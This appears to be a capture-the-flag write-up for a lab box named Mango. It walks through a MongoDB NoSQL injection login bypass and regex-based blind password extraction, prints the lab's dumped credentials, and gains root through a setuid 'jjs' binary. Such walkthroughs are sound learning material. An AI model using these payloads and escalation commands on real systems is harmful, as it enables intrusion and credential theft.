


The endpoints are `ssh`, `http` and `https`.

The `https` endpoint shows us a Google rip off called mango:


The `http` endpoint shows a `Forbidden` page.

We can, however, see that there is a special domain in the SSL certificate.

```
http://staging-order.mango.htb/
```

Adding this to the `/etc/hosts` lets us resolve another domain for the `http` endpoint


This shows a login page!

Running `gobuster` recursively takes us to an exposed `php` `composer` endpoint. This is effectively a package manager for `php`.


The file below shows us that `mongo db` a famous `NoSQL` database extension is installed:
```
http://staging-order.mango.htb/vendor/composer/installed.json
```

Doing some research we can see that there are techniques for `NoSQL` injection. 

Intercepting the request and replacing the `POST` payload with:

```
username[$ne]=x&password[$ne]=x&login=login
```

Lets us login!



Below I will explain how this works.


Below is a common form of a `MongoDB` query:
```php
$ qry = array (
      "username" => $ usernameInput,
      "password" => $ passwordInput
);
```

A dump of the complete query gives us:

```php
array (size = 2)
'username' =>
    array (size = 1)
    '$ne' => string 'x' (length = 1)
'password' =>
    array (size = 1)
    '$ne' => string 'x' (length = 1)
```

This creates a query that will resolve true and log us in!


We can take this further and actually extract usernames and passwords!


The MongoDB documentation has a [`$regex`](https://docs.mongodb.com/manual/reference/operator/query/regex/#op._S_regex) operator.


We can adjust our command to blindly true different characters until it resolves true and logs us in!


We can run a command below multiple times until the length of the password is found:
```
username[$ne]=x&password[$regex]=.{1}  (Login)
username[$ne]=x&password[$regex]=.{2}  (Login)
username[$ne]=x&password[$regex]=.{3}  (Login)
username[$ne]=x&password[$regex]=.{4}  (Login)
username[$ne]=x&password[$regex]=.{5}  (Login)
username[$ne]=x&password[$regex]=.{6}  (No Login)
```

We can see here that the regex was unable to match 6 characters (`.` in regex is any char and `{X}` denotes a number of `X` chars). This, therefore shows that the password is of length 5. This is just an example and the real password length is 16.

We can now us this length to piece together the password char by char:

```
username[$ne]=x&password[$regex]=a   .{4}
username[$ne]=x&password[$regex]=ad  .{3}
username[$ne]=x&password[$regex]=adm .{2}
username[$ne]=x&password[$regex]=admi.{1}
username[$ne]=x&password[$regex]=admin 
```

For this I have created a custom python script called `inject.py`. This lets us find the username and password for the user!

```
mango:h3mXK8RhU~f{]f5H
```

Creds are reused and let us logon as `mongo` via `ssh`!


Using the `mongoexport` command we can dump the remaining users from the `db`:
```
$ mongoexport -d mango -c users

{"_id":{"$oid":"5d8e25334f3bf1432628927b"},"username":"admin","password":"t9KcS3\u003e!0B#2"}
{"_id":{"$oid":"5d8e25364f3bf1432628927c"},"username":"mango","password":"h3mXK8RhU~f{]f5H"}
```

This lets us auth as `admin` and grab the `user.txt`!

```
admin:t9KcS3>!0B#2
```


# ROOT

With basic `lse.sh` enum it shows us that `jjs` is a sticky bit binary. Using `gtfobins` we can piece together a way to run code as `root`.

The PoC from `gtfobins` did not work for the shell spawning so some experimentation was required.

Below are the commands run to obtain the `root.txt`

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('sudo cp -r /root/root.txt /tmp').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod 777 /tmp/root.txt').waitFor()" | jjs
```

This effectivity runs:

```bash
sudo cp -r /root/root.txt /tmp
chmod 777 /tmp/root.txt
```

This lets us grab the `root.txt`!